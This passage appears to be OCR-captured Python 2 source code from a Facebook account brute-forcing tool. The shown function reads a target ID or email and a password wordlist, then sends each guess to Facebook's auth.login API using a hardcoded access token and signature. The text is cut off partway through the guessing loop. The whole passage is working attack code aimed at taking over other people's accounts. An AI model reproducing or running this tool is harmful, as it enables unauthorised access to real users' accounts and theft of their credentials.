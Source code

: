 def brute():

    os.system('clear')

    try:

        toket = open('login.txt', 'r').read()

    except IOError:

        print '\033[1;97m[!] Token not found'

        os.system('rm -rf login.txt')

        time.sleep(0.5)

        login()

    else:

        os.system('clear')

        print logo

        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'

        try:

            email = raw_input('\033[1;97m[+] \033[1;97mID\033[1;97m/\033[1;97mEmail \033[1;97mTarget \033[1;97m:\033[1;97m ')

            passw = raw_input('\033[1;97m[+] \033[1;97mWordlist \033[1;97mext(list.txt) \033[1;97m: \033[1;97m')

            total = open(passw, 'r')

            total = total.readlines()

            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'

            print '\033[1;97m[\033[1;97m\xe2\x9c\x93\033[1;97m] \033[1;97mTarget \033[1;97m:\033[1;97m ' + email

            print '\033[1;97m[+] \033[1;97mTotal\033[1;97m ' + str(len(total)) + ' \033[1;97mPassword'

            jalan('\033[1;97m[\xe2\x9c\xba] \033[1;97mPlease wait \033[1;97m...')

            sandi = open(passw, 'r')

            for pw in sandi:

                try:

                    pw = pw.replace('\n', '')

                    sys.stdout.write('\r\033[1;97m[\033[1;97m\xe2\x9c\xb8\033[1;97m] \033[1;97mTry \033[1;97m' + pw)

                    sys.stdout.flush()

                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

                    mpsh = json.loads(data.text)
